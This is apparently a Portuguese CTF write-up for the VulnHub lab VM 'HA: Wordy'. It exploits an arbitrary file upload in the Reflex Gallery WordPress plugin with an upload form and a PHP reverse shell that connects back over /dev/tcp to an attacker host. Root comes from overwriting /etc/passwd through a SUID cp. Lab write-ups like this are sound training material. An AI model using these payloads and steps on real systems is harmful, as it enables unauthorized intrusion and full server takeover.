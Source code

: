 ```yaml
---
title: Desafio 2 - VM 07
author: R3d-4rr0w
date: 2022-04-14 05:00:00 -0300
categories: [Desafio 2, Beco do Exploit, Writeups]
tags: [Desafio 2, Writeups, Linux, WordPress]
image: "/img/desafio2/becoxpl-logo.png"
alt: "Desafio2-VM7"
---
```


# VM 7 - Ha Hardy

---

## [VM 7 - Ha Hardy](https://www.vulnhub.com/entry/ha-wordy,363/)

---

## Reconhecimento:

NMAP

```bash
┌──(red_arrow㉿kali)-[~]
└─$ nmap -sV -Pn -v 192.168.56.10
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-11 16:00 EDT
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

No scan no nmap, só achamos a porta 80 aberta, que está rodando um Apache.

Ao abrir no browser,  vemos a página default do Apache.

<img src ="/img/desafio2/vm7/hardy.png">

Vamos fazer uma enumeração de diretórios usando o FFUF.

Podemos ver que existe um wordpress rodando.

<img src ="/img/desafio2/vm7/hardy 1.png">

<img src ="/img/desafio2/vm7/hardy 2.png">

Olhando código fonte, vemos os plugins que o WordPress está usando.

Buscando por exploits, achamos um do reflex-gallery

<img src ="/img/desafio2/vm7/hardy 3.png">

Olhando no diretório raiz do plugin, achamos o readme.txt.

<img src ="/img/desafio2/vm7/hardy 4.png">

Dentro do readme.txt, vemos a versão do plugin, que é a 3.1.3.

<img src ="/img/desafio2/vm7/hardy 5.png">

No searchsploit, existe um exploit para a versão que vimos acima.

<img src ="/img/desafio2/vm7/hardy 6.png">

>**💡[WordPress Plugin Reflex Gallery 3.1.3 - Arbitrary File Upload](https://www.exploit-db.com/exploits/36374)**


Dentro do exploit, fala do path para a exploração.

```bash
http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php
```

Que ao ser acessado, retorna um erro dizendo que não tem arquivos carregados, então vemos que existe o serviço de upload e será possivel explorar.

<img src ="/img/desafio2/vm7/hardy 7.png">

---

## Exploração do File Upload

Como não achamos o lugar para fazer o upload, no exploit tem o código de um formulário que poderemos usar para o isso.

```html
<form method="POST" action="http://192.168.56.10/wordpress/wp-content/plugins/reflex-gallery/admin/scripts/FileUploader/php.php" enctype="multipart/form-data" >
    <input type="file" name="qqfile"><br>
    <input type="submit" name="Submit" value="Pwn!">
</form>
```

Agora precisamos criar a reverse shell para enviar usando esse formulário.

Vamos usar uma shell simples que utiliza a função [exec()](https://www.php.net/manual/en/function.exec.php) do php.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'");
?>
```

Vamos então abrir o formulário que criamos e fazer o upload da reverse shell no servidor alvo.

<img src ="/img/desafio2/vm7/hardy 8.png">

<img src ="/img/desafio2/vm7/hardy 9.png">

Ao abrir o path que armazena os arquivos carregados, que é citado no exploit, vemos o nosso arquivo.

<img src ="/img/desafio2/vm7/hardy 10.png">

Agora vamos configurar o netcat para receber a conexão reversa e depois abrimos o código php que enviamos no browser, para termos acesso a reverse shell que enviamos.

<img src ="/img/desafio2/vm7/hardy 11.png">

---

## Escalagem de Privilégio

Ao tentar ver os comandos que o usuário pode executar como root, usando o sudo -l, é pedida a senha do usuário, como não temos a senha vamos ver quais arquivos ele tem permissão para executar usando o find.

<img src ="/img/desafio2/vm7/hardy 12.png">

Vemos acima que ele tem permissão de usar o /bin/cp e pode copiar arquivos como root.

Vamos usar para manipular o arquivo /etc/passwd e criar um novo usuario com privilégio elevado.

Primeiro iremos ler o arquivo /etc/passwd e copiar todo o contéudo, depois vamos criar um arquivo na nossa máquina com o mesmo nome /etc/passwd e inserir o nosso usuário seguindo o padrão utilizado pelo arquivo.

>**💡[Understanding /etc/passwd file fields](https://www.cyberciti.biz/faq/understanding-etcpasswd-file-format/)**


Para criar a senha, vamos usar o openssl e criar o hash no mesmo padrão do arquivo /etc/shadow que é usado no linux.

> **💡 [OpenSSL - PASSWD](https://www.openssl.org/docs/man1.1.1/man1/openssl-passwd.html)**


```bash
┌──(red_arrow㉿kali)-[~]
└─$ openssl passwd -1 -salt red-arrow frecha
```

Agora vamos inserir o usuario no arquivo, com os mesmos dados do root.

<img src ="/img/desafio2/vm7/hardy 13.png">

Então vamos fazer o upload do arquivo que criamos para o alvo.

Podemos usar o mesmo formulario de upload.

<img src ="/img/desafio2/vm7/hardy 14.png">

<img src ="/img/desafio2/vm7/hardy 15.png">

<img src ="/img/desafio2/vm7/hardy 16.png">

Podemos notar que ele está com o nome diferente, existe um ponto ( . ) no final do nome. 

Vamos copiar ele para criar um arquivo com o nome correto, sem o ponto.

<img src ="/img/desafio2/vm7/hardy 17.png">

Agora vamos copiar o arquivo para a pasta /etc/ e substituir o original, pelo que tem o nosso usuário.

<img src ="/img/desafio2/vm7/hardy 18.png">

Ao tentar trocar de usuário, ele da um erro, dizendo que o su precisa ser executado de um terminal.

<img src ="/img/desafio2/vm7/hardy 19.png">

Vamos importar a shell interativa TTY, usando o python 3.

Agora podemos mudar para o nosso usuário com privilégio elevado.

<img src ="/img/desafio2/vm7/hardy 20.png">

Podemos ver que temos acesso root.

<img src ="/img/desafio2/vm7/hardy 21.png">

E dentro do diretório /root, temos a flag da VM.

<img src ="/img/desafi?
